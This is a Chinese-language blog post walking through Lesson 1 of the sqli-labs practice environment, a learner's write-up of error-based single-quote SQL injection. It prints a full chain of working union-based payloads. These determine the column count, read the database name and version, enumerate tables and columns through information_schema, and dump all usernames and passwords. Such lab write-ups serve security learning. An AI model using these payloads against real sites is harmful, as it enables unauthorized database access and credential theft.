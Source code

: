 ```yaml
---
![1578130656386.png](https://i.loli.net/2020/01/04/6Bl2AuzxXMOmSo1.png)![1578130520986.png](https://i.loli.net/2020/01/04/jhYCoxwXWJQTI9r.png)![1578127478997.png](https://i.loli.net/2020/01/04/tlqJf8zY6VcjPuC.png)layout: post
title: sqli-labs Lesson-1 字符型注入
subtitle: 
date: 2020-01-03
author: kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - sql
    - sql injection
    - security
---
```




## preface



这篇文章是我正式学习 sql 注入的第一篇文章，下载了 sqli-labs 靶机作为渗透环境，里面的题目很多，有几十题的 sql 注入，跟着网上的 wp 一起做了一题，然后还是学到挺多东西的，这里拿第一关来记录一下



## sql 注入概念



通俗点说，就是要获取数据库里面所有的信息，包括这张表的字段个数，字段名分别是什么，在哪个数据库中，以及所有的记录，一般来说，黑客就会想知道有关管理员表的一些信息，作为学习，我就先将 sql 注入的一般的步骤写下来



1. 判断是否可注入以及注入点的类型（字符型，数字型，布尔型）
2. 猜解表中的字段数（一般利用 order by column_id）
3. 确定显示的字段顺序（一般用 union 联合查询）
4. 获取当前的数据库（通过 MySQL 内建的 database() 函数）
5. 获取表中的字段名
6. 下载数据



## 开始做题



### 判断注入点



下面就按照上面这几个步骤来对第一关进行 sql 注入吧，害，不过题目都说了是基于报错的字符型单引号注入了，有了先入为主的思想，就直接输入一个 `'` 进去了，然后看到报错信息，真的是用单引号包着的，所以猜测 sql 查询语句为

```sql
select xx from table where id='$id' limit 0, 1;
```

![error](https://i.loli.net/2020/01/04/5pvtiwQ4lFEebL8.png)



然后进一步查看是否存在 sql 注入，由于已知是字符型的注入了，所以我们分别输入 `'or'1'='1` 和 `'or'1'='2` 来看看返回的是不是相同的界面，如果不同的话就说明有 sql 注入漏洞

![1578127454967.png](https://i.loli.net/2020/01/04/nrVNCgmHS9qpAhv.png)

![1578127478997.png](https://i.loli.net/2020/01/04/tlqJf8zY6VcjPuC.png)



### 爆字段个数



可以看到返回的不同的数据，所以存在 sql 注入，下面我们就开始注入过程。首先确定一下这张表有几个字段，用 `order by column_id` 一个一个试，然后把后面的 sql 语句给注释掉来截断

![1578127659994.png](https://i.loli.net/2020/01/04/DT54rxqRdLPINoU.png)

试到 4 的时候报错了，所以确定了这张表只有 3 个字段

![1578127762664.png](https://i.loli.net/2020/01/04/EMKJSneVmkgs9RW.png)



### 爆显示顺序



紧接着，第二步，确定显示出来的是哪几个字段，这里用 union 查询，并且将前面一个查询的结果给屏蔽，因为这个 sql 语句只能返回一条记录，如果前面输出了的话那么后面查询得到的数据就不会被显示出来，所以这里我们可以用下面这句来构造 payload

```sql
1' and 1=2 union select 1, 2 --+ 
```

但是报错了，说 union 查询的前后两条记录的字段数不相等，那么猜想真实的 sql 语句一定是 `select *` ，返回的是 3 个字段的记录

![1578129308538.png](https://i.loli.net/2020/01/04/G9Ry6KH7uQaojew.png)



那我们就再构造一个 payload

```sql
1' and 1=2 union select 1, 2, 3 --+ 
```

![select-1-2-3](https://i.loli.net/2020/01/04/XFDzSr3ZfPdlC2J.png)



### 爆数据库



这次显示的是 2， 3，所以 login_name 这个字段的顺序是 2，password 是 3，那么 id 肯定是 1 了，已经知道这些了，接下去就看下这个数据库叫什么名字，要先得到数据库的消息就可以用 mysql 内建的数据库查出表的名字，用下面这条 payload 获取数据库的名字

```sql
1' and 1=2 union select 1, database(), 3 --+ 
```



![1578129576658.png](https://i.loli.net/2020/01/04/qgJoxCHXfUnZjmM.png)



### 爆表名



ok，这张表所在的数据库的名字是 security，知道数据库的名字之后我们还得知道数据库是什么系统的，以及版本号，顺带也可以获取系统是 win 还是 linux ，虽然这里肯定是 MySQL 数据库，但是实战中不一定总是 MySQL ，所以要先查询一下，下面这些函数在我之前写的 [sql 基本语句](https://szukevin.site/2019/11/13/%E4%B8%80%E4%BA%9B%E5%B8%B8%E7%94%A8%E7%9A%84SQL%E8%AF%AD%E5%8F%A5/)中都找得到



可以像这样一个一个查询，查完之后换一个函数继续查，但是效率不高

```sql
1' and 1=2 union select 1, @@datadir, version() --+ 
...
1' and 1=2 union select 1, @@version_compile_os, user() --+ 
```



用 `concat_ws(separator,str1,str2,...)` 函数更加方便，这个函数的功能是将多个字符串拼接在一起，因此我们可以用这个函数一次性查询好多东西

```sql
1' and 1=2 union select 1, 2, concat_ws(',', @@datadir, version(), @@version_compile_os, user()) --+ 
```



![1578139631092.png](https://i.loli.net/2020/01/04/7w3hYL9UdajGiHS.png)



得知数据库是在 debian 系统上的 MariaDB（其实跟 MySQL 是一样的东西），接下来我们用 MySQL 中的 information_schema 数据库爆出表名

```sql
1' and 1=2 union select 1, 2, table_name from information_schema.tables where table_schema='security' --+ 
```



![1578130520986.png](https://i.loli.net/2020/01/04/jhYCoxwXWJQTI9r.png)



可以看到，只显示出了一个表名，这是因为它只取了第一行的记录，其实是有多行的，我们要用 `group_concat` 这个函数将多行记录放在一行显示

```sql
1' and 1=2 union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='security' --+ 
```

![1578130656386.png](https://i.loli.net/2020/01/04/6Bl2AuzxXMOmSo1.png)



### 爆字段名



然后看到了这个数据库里面有 4 张表，猜想这张表是 users ，然后爆出字段名，同样也是用到 information_schema 这个数据库，所以说这个数据库很重要

```sql
1' and 1=2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='users' --+ 
```



![1578139721794.png](https://i.loli.net/2020/01/04/4whBe617vqQKRnO.png)



但是这里出现了好多字段，之前不是确认过了这张表只有三个字段的吗，原因就是我的环境中还有其他的数据库中的表也叫做 users ，为了避免这种情况，就要再筛选一下了



```sql
1' and 1=2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security' --+ 
```

![1578138434738.png](https://i.loli.net/2020/01/04/5ICxjqW9cNifXg2.png)



### 爆所有数据



这下字段名就出来了，一个是 id ，一个是 username ，一个是 password ，接下去就可以根据字段名将数据库所有的用户信息都给爆出来了



```sql
1' and 1=2 union select 1, group_concat(username), group_concat(password) from users --+ 
```



![all-data](https://i.loli.net/2020/01/04/xfj81R69tDvqKVQ.png)



到这里就完成了一次注入，还挺有趣的，总之注入的时候就要想想后台的 sql 可能是怎么写的，然后去猜测信息，接着用一些手段来获取自己想得到的信息



## reference



https://blog.csdn.net/qq_43531669/article/details/90812561


